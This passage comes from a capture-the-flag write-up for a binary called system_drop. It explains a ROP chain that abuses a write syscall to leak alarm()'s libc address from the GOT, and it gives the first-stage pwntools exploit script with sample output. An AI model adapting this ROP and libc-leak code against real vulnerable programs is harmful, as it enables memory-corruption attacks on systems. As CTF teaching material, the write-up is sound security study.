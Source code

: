 After some initial testing, it became clear that the `mprotect`>`read()` chain would be too large to fit in 256 bytes as it would require us to utilize a `__libc_csu_init()` chain to store data in the RDX and RCX registers. A different approach was required. 

Upon closer examination of `main()`'s disassembly, the binary sets EAX to 1 right after `read()` is called. When `syscall` is called and RAX is 1, it calls the `write` syscall. This could be leveraged to call `write` and leak a libc address from the GOT. 

The GOT itself only contained entries for `alarm()` and `read()`: 

```
[0x601018] alarm@GLIBC_2.2.5 -> 0x7ffff7ac8840 (alarm) ◂— mov    eax, 0x25
[0x601020] read@GLIBC_2.2.5 -> 0x7ffff7af4070 (read) ◂— lea    rax, [rip + 0x2e0881]
```

With a libc leak, we can calculate libc's base address and return to an `execve("/bin/sh")` gadget. While the binary didn't come with an included `libc.so.6`, we did have one from the Controller challenge. I made the assumption that both binaries used the same version of libc and used it for the exploit. Here's the first part of our exploit that leaks `alarm()` at libc's address, and calculates libc's base address: 

```
from pwn import *

context(os="linux", arch="amd64")
elf = context.binary = ELF("./system_drop")

libc = ELF("./libc.so.6")

pop_rdi = 0x4005d3               # pop rdi
pop_rsi_chain = 0x4005d1         # pop rsi; pop r15; ret
syscall = 0x40053b               # syscall; ret

# Stage 1 : Leak a libc address
# After the binary calls read(), it sets eax=1 which we can use for a write() syscall to leak
# alarm()'s libc address
buf = b"A"*40
buf += p64(pop_rdi)
buf += p64(0x1)                 # stdout
buf += p64(pop_rsi_chain)
buf += p64(elf.got.alarm)       # alarm@got
buf += p64(0x0)
buf += p64(syscall)             # write() syscall which should give us the libc address we need

r.sendline(buf)
alarm_libc_leak = int.from_bytes(r.recv()[:6], "little")
print(f"alarm@libc: 0x{alarm_libc_leak:2x}")

libc.address = alarm_libc_leak - libc.sym.alarm
print(f"libc base: 0x{libc.address:2x}")
```

So far so good:

```
► ./sploit.py SILENT=1
alarm@libc: 0x7f6da9056610
libc base: 0x7f6da8f72000
```
